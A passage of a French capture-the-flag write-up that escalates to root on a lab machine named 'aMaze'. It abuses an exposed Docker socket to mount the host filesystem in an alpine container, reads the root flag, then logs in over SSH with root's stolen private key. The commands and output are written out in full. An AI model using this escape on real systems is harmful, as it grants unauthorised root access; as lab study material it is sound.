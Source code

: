 La clé fonctionne pour ce guest et on trouve dans le dossier de *root* le binaire *docker*.  

Toutefois la configuration par défaut ne semble pas fonctionner car le socket a été placé à un autre endroit. On peut corriger cela par une simple option.  

```plain
root@a97495c67b7e:~/docker# ./docker images ls
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

root@a97495c67b7e:~/docker# find / -name docker.sock
/tmp/docker.sock

root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock images ls -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
```

Le ménage a été fait dans les images présentes. Si on veut utiliser la technique classique de création d'un container avec le montage du système de fichier hôte il faut d'abord créer puis rappatrier une image.  

```bash
$ docker pull alpine:latest
latest: Pulling from library/alpine
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Image is up to date for alpine:latest
docker.io/library/alpine:latest
$ docker save alpine > alpine.tar
```

J'envoie l'archive vers le premier hôte via sftp sur le tunnel *ReverseSSH* puis de là le copie avec scp sur le second Docker.  

```plain
root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock load -i /tmp/alpine.tar 
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image: alpine:latest

root@a97495c67b7e:~/docker# ./docker -H unix:///tmp/docker.sock run -v /:/mnt/fs -it alpine:latest /bin/sh
/ # cd /mnt/fs
/mnt/fs # cd root
/mnt/fs/root # ls
root.txt
/mnt/fs/root # cat root.txt 
676d6015094f9ec56284538b48537902
```

On peut aussi récupérer la clé privée de l'utilisateur *root* et enfin avoir une connexion sur l'hôte.  

```plain
$ ssh -i real_amaze.key root@192.168.56.14
Linux aMaze 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 28 22:58:37 2020 from 192.168.0.104
root@aMaze:~#
```
